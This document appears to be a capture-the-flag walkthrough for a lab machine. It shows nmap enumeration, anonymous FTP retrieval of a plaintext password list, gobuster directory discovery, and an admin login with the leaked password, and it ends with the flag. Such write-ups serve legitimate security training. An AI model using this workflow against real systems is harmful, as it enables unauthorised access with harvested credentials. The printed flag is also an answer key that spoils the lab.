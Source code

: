 target ip :: 10.129.217.162

	start with namp enumration.
			sudo nmap -sCV -T5 10.129.217.162 -Pn -oN nmap.txt
			PORT   STATE SERVICE VERSION
			21/tcp open  ftp     vsftpd 3.0.3
			| ftp-anon: Anonymous FTP login allowed (FTP code 230)
			| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
			|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
			| ftp-syst: 
			|   STAT: 
			| FTP server status:
			|      Connected to ::ffff:10.10.14.228
			|      Logged in as ftp
			|      TYPE: ASCII
			|      No session bandwidth limit
			|      Session timeout in seconds is 300
			|      Control connection is plain text
			|      Data connections will be plain text
			|      At session startup, client count was 3
			|      vsFTPd 3.0.3 - secure, fast, stable
			|_End of status
			80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
			|_http-server-header: Apache/2.4.41 (Ubuntu)
			|_http-title: Smash - Bootstrap Business Template
			Service Info: OS: Unix

		here we can see only two ports are open 

		FTP port have some usefull information as we can see on result



		let get the files and see what it contains 

		ftp 10.129.217.162

		-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
		-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd


      cat allowed.userlist.passwd 
      root
      Supersecretpassword1
      @BaASD&9032123sADS
      rKXM59ESxesUFHAd


      cat allowed.userlist       
      aron
      pwnmeow
      egotisticalsw
      admin

here we have admin and it's password rKXM59ESxesUFHAd


hit the ip on browser and see what we get

lets find the other directory by using a gobuster.

      gobuster dir -u http://10.129.217.162/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50 -x .php

      ===============================================================
      /login.php            (Status: 200) [Size: 1577]
      /assets               (Status: 301) [Size: 317] [--> http://10.129.217.162/assets/]
      /css                  (Status: 301) [Size: 314] [--> http://10.129.217.162/css/]   
      /js                   (Status: 301) [Size: 313] [--> http://10.129.217.162/js/]    
      /logout.php           (Status: 302) [Size: 0] [--> login.php]                      
      /config.php           (Status: 200) [Size: 0]                                      
      /fonts                (Status: 301) [Size: 316] [--> http://10.129.217.162/fonts/] 
      /dashboard            (Status: 301) [Size: 320] [--> http://10.129.217.162/dashboard/]


we can see there is /login.php 

use admin and rKXM59ESxesUFHAd to login 


FLG::c7110277ac44d78b6a9fff2232434d16
